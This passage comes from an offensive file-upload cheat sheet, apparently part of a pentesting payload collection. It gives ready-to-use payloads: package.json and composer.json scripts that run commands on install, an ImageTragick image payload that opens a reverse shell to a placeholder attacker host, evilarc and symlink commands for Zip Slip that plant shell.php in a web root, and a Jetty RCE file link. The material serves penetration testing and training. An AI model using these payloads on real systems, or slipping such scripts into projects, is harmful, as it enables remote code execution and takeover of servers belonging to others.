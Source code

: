 Alternatively you may be able to upload a JSON file with a custom scripts, try to overwrite a dependency manager configuration file.
- package.json
    ```js
    "scripts": {
        "prepare" : "/bin/touch /tmp/pwned.txt"
    }
    ```
- composer.json
    ```js
    "scripts": {
        "pre-command-run" : [
        "/bin/touch /tmp/pwned.txt"
        ]
    }
    ```

### CVE - ImageMagick

If the backend is using ImageMagick to resize/convert user images, you can try to exploit well-known vulnerabilities such as ImageTragik.

* ImageTragik example: Upload this content with an image extension to exploit the vulnerability (ImageMagick , 7.0.1-1)
    ```powershell
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
    pop graphic-context
    ```

More payloads in the folder `Picture ImageMagick`

### CVE - FFMpeg

FFmpeg HLS vulnerability


### ZIP archive

When a ZIP/archive file is automatically decompressed after the upload

* Zip Slip: directory traversal to write a file somewhere else
    ```python
    python evilarc.py shell.php -o unix -f shell.zip -p var/www/html/ -d 15

    ln -s ../../../index.php symindex.txt
    zip --symlinks test.zip symindex.txt
    ```

### Jetty RCE

Upload the XML file to `$JETTY_BASE/webapps/`
* [JettyShell.xml - From Mikhail Klyuchnikov](https://raw.githubusercontent.com/Mike-n1/tips/main/JettyShell.xml)

## Labs 

* [Portswigger Labs on File Uploads](https://portswigger.net/web-security/all-labs#file-upload-vulnerabilities)
